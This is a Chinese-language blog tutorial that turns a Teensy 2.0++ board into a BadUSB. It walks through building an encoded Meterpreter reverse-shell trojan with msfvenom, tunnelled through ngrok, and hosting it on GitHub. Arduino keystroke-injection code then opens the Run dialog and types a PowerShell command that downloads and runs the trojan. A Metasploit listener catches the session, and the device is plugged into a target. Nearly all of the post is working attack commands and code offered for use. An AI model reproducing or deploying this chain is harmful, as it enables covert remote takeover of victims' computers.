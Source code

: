 ```yaml
---
title: 渗透利器-Teensy（低配版BadUSB）
date: 2018-09-25 
tags: kali
layut: post
---
```


### 准备工作
* 一块 **Teensy2.0++** 的板子(淘宝一搜就有)
[1](http://da1sy.github.io/assets/images/9-Yue/teensy-1.jpg)
* Arduino解释器
    * 1.8.7版本下载连接：[arduino下载地址](https://downloads.arduino.cc/arduino-1.8.7-linux64.tar.xz "arduino") 
* Teensy插件
    * 下载连接：[Teensy下载地址](https://www.pjrc.com/teensy/td_144/TeensyduinoInstall.linux64 "Teensy")

### 1.下载好arduino后直接解压
```linux
⚡ /home/da1sy/arduino-1.8.7# ./arduino
```
### 2.安装Teensy插件
```
⚡ /home/da1sy/arduino-1.8.7# ./TeensyduinoInstall.linux64
```
**注意将插件安装到arduino的解压目录下**
### 3.arduino修改配置
打开软件后将 **工具** 下配置修改如下
[2](http://da1sy.github.io/assets/images/9-Yue/teensy-2.jpg)

### 4.利用ngrok实现内网穿透
#### 在https://www.ngrok.cc/ 注册账号后开通tcp隧道
[3](http://da1sy.github.io/assets/images/9-Yue/teensy-3.png)
#### 下载客户端
```linux
⚡/home/da1sy/桌面/linux_amd64# ./sunny clientid 隧道ID号
```
[4](http://da1sy.github.io/assets/images/9-Yue/teensy-4.png)
### 5.利用msfvenom生成windows端木马
```linux
 ⚡/home/da1sy# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 12 -b '\x00' lhost=free.idcfengye.com lport=17839 -f exe > windows.exe  
```
**lhost** 为运行sunny后的域名，**lport**为开通隧道时填写的端口（运行后也会有显示）
#### 最后将生成的木马放到github项目上实现远程下载
### 6.编辑arduino代码
```arduino
char *command1 = "powershell -Command $clnt = new-object System.Net.WebClient;$url= 'https://raw.githubusercontent.com/da1sy/da1sy/master/windows.exe';$file = ' %HOMEPATH%\\windows.exe ';$clnt.DownloadFile($url,$file); ";
char *command2 = "%HOMEPATH%\\windows.exe ";
//将连接的地址改为自己github的地址
void setup() { 
    delay(5000);
    omg(command1);
    delay(15000);
    omg(command2);
 }
  
void loop() {}

void omg(char *SomeCommand)
{
  Keyboard.set_modifier(128); 
  Keyboard.set_key1(KEY_R);
  Keyboard.send_now(); 
  Keyboard.set_modifier(0); 
  Keyboard.set_key1(0); 
  Keyboard.send_now(); 
  delay(1500);
  Keyboard.println(SomeCommand);
}
```
#### 编辑好后点**验证**，然后插入**Teensy**板子，最后按一下板子上的按钮完成上传

### 7.metasploit开启监听
[5](http://da1sy.github.io/assets/images/9-Yue/teensy-4.png)
```
⚡ /home/da1sy/# msfconsole

msf > use exploit/multi/handler
msf exploit(multi/handler) > set lhost 127.0.0.1
msf exploit(multi/handler) > set lport 6666
msf exploit(multi/handler) > exploit
```
### 8.最后对目标插入badusb
效果图如下
[6](http://da1sy.github.io/assets/images/9-Yue/teensy-1.gif)

监听端
[7](http://da1sy.github.io/assets/images/9-Yue/teensy-2.gif)
_最后反弹的会话好像是出现了毛病，不过总体上嘛 问题不大_

### 一些其他的代码
```

```